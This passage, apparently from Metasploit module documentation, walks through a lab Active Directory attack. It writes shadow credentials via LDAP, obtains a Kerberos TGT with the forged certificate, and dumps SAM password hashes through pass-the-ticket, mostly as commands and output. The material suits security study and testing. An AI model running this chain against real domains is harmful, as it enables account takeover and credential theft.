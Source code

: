 ```msf
msf6 auxiliary(admin/ldap/shadow_credentials) > run
[*] Running module against 20.92.148.129

[*] Discovering base DN automatically
[+] 20.92.148.129:389 Discovered base DN: DC=msf,DC=local
[*] Certificate stored at: /home/user/.msf4/loot/20240404115740_default_20.92.148.129_windows.ad.cs_300384.pfx
[+] Successfully updated the msDS-KeyCredentialLink attribute; certificate with device ID 8a75b35e-f4d9-4469-49aa-3f0bfc692f07
[*] Auxiliary module execution completed
```

The LDAP property has been successfully updated. Now we can request a TGT using the `get_ticket` module.


```msf
msf6 auxiliary(admin/kerberos/get_ticket) > set rhosts 20.92.148.129
rhosts => 20.92.148.129
msf6 auxiliary(admin/kerberos/get_ticket) > set username victim
username => victim
msf6 auxiliary(admin/kerberos/get_ticket) > set domain MSF.LOCAL
domain => MSF.LOCAL
msf6 auxiliary(admin/kerberos/get_ticket) > set cert_file /home/user/.msf4/loot/20240404115740_default_20.92.148.129_windows.ad.cs_300384.pfx
cert_file => /home/user/.msf4/loot/20240404115740_default_20.92.148.129_windows.ad.cs_300384.pfx
msf6 auxiliary(admin/kerberos/get_ticket) > run
[*] Running module against 20.92.148.129

[!] Warning: Provided principal and realm (victim@MSF.LOCAL) do not match entries in certificate:
[*] 20.92.148.129:88 - Getting TGT for victim@MSF.LOCAL
[+] 20.92.148.129:88 - Received a valid TGT-Response
[*] 20.92.148.129:88 - TGT MIT Credential Cache ticket saved to /home/user/.msf4/loot/20240404120020_default_20.92.148.129_mit.kerberos.cca_046023.bin
[*] Auxiliary module execution completed
```

The saved TGT can be used in a pass-the-ticket style attack. For instance using the `auxiliary/gather/windows_secrets_dump` module:

```msf
msf6 auxiliary(gather/windows_secrets_dump) > run smb::auth=kerberos smb::rhostname=dc22 smbuser=victim smbdomain=msf.local rhost=20.92.148.129 domaincontrollerrhost=20.92.148.129
[*] Running module against 20.92.148.129

[*] 20.92.148.129:445 - Using cached credential for krbtgt/MSF.LOCAL@MSF.LOCAL victim@MSF.LOCAL
[+] 20.92.148.129:445 - 20.92.148.129:88 - Received a valid TGS-Response
[*] 20.92.148.129:445 - 20.92.148.129:445 - TGS MIT Credential Cache ticket saved to /home/user/.msf4/loot/20240404121510_default_20.92.148.129_mit.kerberos.cca_449355.bin
[+] 20.92.148.129:445 - 20.92.148.129:88 - Received a valid delegation TGS-Response
[*] 20.92.148.129:445 - Service RemoteRegistry is already running
[*] 20.92.148.129:445 - Retrieving target system bootKey
[+] 20.92.148.129:445 - bootKey: 0x019e09099ae1ec55560bc1e7f9414919
[*] 20.92.148.129:445 - Saving remote SAM database
[*] 20.92.148.129:445 - Dumping SAM hashes
[*] 20.92.148.129:445 - Password hints:
No users with password hints on this system
[*] 20.92.148.129:445 - Password hashes (pwdump format - uid:rid:lmhash:nthash:::):
Administrator:500:aad3b435b51404eeaad3b435b51404ee:26f8220ed7f1494c5737bd552e661f89:::
```
